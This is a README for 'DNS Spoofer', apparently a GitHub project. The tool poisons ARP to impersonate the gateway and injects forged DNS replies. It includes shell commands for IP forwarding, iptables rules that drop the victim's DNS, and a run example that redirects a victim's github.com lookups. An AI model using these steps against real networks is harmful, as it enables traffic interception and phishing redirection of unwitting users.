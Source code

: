 # DNS Spoofer

DNS Spoofer is a tool which exploits how ARP protocol works by pretending to be the gateway. Then when victim saves attacker's MAC as gateway
all packets will be tunneled through attacker's computer. This allows attacker to pick DNS packets, drop them and inject fake DNS responses.

## Prerequisites

Install required packages. Commands below are for Arch Linux. If you are using a different distro then you will need to find packages on your own.

```sh
pacman -S libpcap-devel
pacman -S libnet-devel
```

## How to run

### 1. Enable ip forwarding

```sh
echo "1" | sudo tee /proc/sys/net/ipv4/ip_forward
```

### 2. Add routing via iptables

These commands will make that all packets are passed to the router except for DNS requests.
Second command is needed because without it DNS responses would be masqueraded too and victim would not
accept them.

```sh
sudo iptables -t filter -A FORWARD -p udp --dport 53 -j DROP
sudo iptables -t nat -A POSTROUTING -o wlo1 -p udp --sport 53 -j ACCEPT
sudo iptables -t nat -A POSTROUTING -o wlo1 -j MASQUERADE
```

### 3. Compile

```sh
make
```

### 4. Run

```sh
sudo ./dns_spoofer INTERFACE_NAME GATEWAY_IP_ADDR WEBSITE_ADDR REDIRECT_IP_ADDR VICTIMS_MAC
```

If you are not sure which interface to use, run "ip a" and look for the one that has "state UP".

To get victim's mac address, run "arp-scan --localnet".

#### Example:

If your interface is wlo1, gateway is 192.168.0.1 and victim's MAC is a8:44:12:13:g2:1b then you can run the following command:

```sh
sudo ./dns_spoofer wlo1 192.168.0.1 github.com guthib.com a8:44:12:13:g2:1b
```

This will make it so that when victim asks for ip address of github.com instead they will get ip address of guthib.com.
